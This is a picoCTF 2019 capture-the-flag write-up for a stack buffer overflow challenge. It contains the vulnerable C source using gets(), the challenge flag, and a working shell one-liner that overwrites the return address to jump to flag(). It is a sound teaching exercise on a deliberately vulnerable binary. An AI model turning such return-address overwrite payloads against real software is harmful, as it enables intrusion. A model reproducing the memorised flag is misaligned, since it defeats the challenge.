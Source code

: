 
# Binary Exploitation - Overflow 1 (150 points)

## Challenge

*You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8 on the shell server. Source.*

![Challenge](./_images/binary_exploitation_overflow_1_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

## Flag

picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}

## Walkthrough

The function void `void vuln()` is vulnerable to a buffer overflow because of a call to `gets()` (no boundaries) rather than `fgets()` (which read only a limited number of char). 

```C
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
  [...]
}
```

The function also gives us the return address of the next instruction in `main()` :

```C
void vuln(){
  [...]
  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}
```

```Bash
m3oow@pico-2019-shell1:/problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8$ ./vuln
Give me a string and lets see what happens: 
plop
Woah, were jumping to 0x8048705 !
```

Our goal here is to modify the return value (aka: the EIP register value) to execute the `flag()` function rather than returning in `main()`. To do this, we need the address of `flag()`. Using for example edb-debugger and its function finder:

![edb](../_images/binary_exploitation_overflow_1_edb.png)

So `flag()` is at address 0x080485e6.

So all we have to do is to perform a big and dirty buffer overflow to write the adress of `flag()` at the return address of `vuln()`:

```bash
m3oow@pico-2019-shell1:/problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8$ (echo -en "\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08"; cat -) | ./vuln
Give me a string and lets see what happens: 

Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}
Segmentation fault (core dumped)
```
